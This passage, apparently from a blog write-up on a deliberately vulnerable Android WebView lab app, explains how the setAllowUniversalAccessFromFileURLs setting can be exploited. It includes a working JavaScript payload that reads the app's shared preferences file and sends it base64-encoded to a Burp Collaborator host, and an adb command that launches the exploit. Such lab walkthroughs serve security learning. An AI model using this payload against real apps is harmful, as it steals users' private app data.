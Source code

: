 Now let us see how to exploit this setting which has been used in the above application.

![](https://miro.medium.com/max/60/1*H7gAyIMLSpHdiIN01dN1bA.png?q=20)![](https://miro.medium.com/max/751/1*H7gAyIMLSpHdiIN01dN1bA.png)![](https://miro.medium.com/max/1202/1*H7gAyIMLSpHdiIN01dN1bA.png)setAllowUniversalAccessFromFileURLs

Now, let us create the exploit for the vulnerability in java script as discussed in the vulnerability details.

I have used my burp collaborator link to get the content, you can use whichever is handy for you.

```
<script>
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local file
function load(url) {
        var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
            fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=' + btoa(xhr.responseText)); //send b64 encoded file to attacker
            }
        }
xhr.open('GET', url, true);
        xhr.send('');
    }
load(url)
</script>

```

![](https://miro.medium.com/max/60/1*0BzF-GA-dCxlSwWV19qBGg.png?q=20)![](https://miro.medium.com/max/875/1*0BzF-GA-dCxlSwWV19qBGg.png)![](https://miro.medium.com/max/1400/1*0BzF-GA-dCxlSwWV19qBGg.png)Arbitrary file read exploit

Add the above code to **sauafu.html** and move the file to the sdcard using adb.

![](https://miro.medium.com/max/60/1*lLm6-_JqCJvytg6SHdAFaw.png?q=20)![](https://miro.medium.com/max/671/1*lLm6-_JqCJvytg6SHdAFaw.png)![](https://miro.medium.com/max/1074/1*lLm6-_JqCJvytg6SHdAFaw.png)push exploit into device

Exploit loads the content of the local file and returns it to the attacker url.

Now run the intent with exploit file.

```
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/sauafu.html"

```

![](https://miro.medium.com/max/60/1*S4DzqL83S2Lmrhv-sT3wwA.png?q=20)![](https://miro.medium.com/max/875/1*S4DzqL83S2Lmrhv-sT3wwA.png)![](https://miro.medium.com/max/1400/1*S4DzqL83S2Lmrhv-sT3wwA.png)intent launch![](https://miro.medium.com/max/52/1*_eHbkX_uzZ66mx0pXKzREg.png?q=20)![](https://miro.medium.com/max/629/1*_eHbkX_uzZ66mx0pXKzREg.png)![](https://miro.medium.com/max/1006/1*_eHbkX_uzZ66mx0pXKzREg.png)empty registration page

Now we should have received file contents encoded in base 64 in the burp collaborator or whatever you used.

![](https://miro.medium.com/max/60/1*T8vuPxo7RPClA6J50SSJzA.png?q=20)![](https://miro.medium.com/max/875/1*T8vuPxo7RPClA6J50SSJzA.png)![](https://miro.medium.com/max/1400/1*T8vuPxo7RPClA6J50SSJzA.png)exploit poc

We can see the decoded contents of the file which was received in base 64 encoded on the right window box.

JavaScript Enabled with Interface for WebView
=============================================
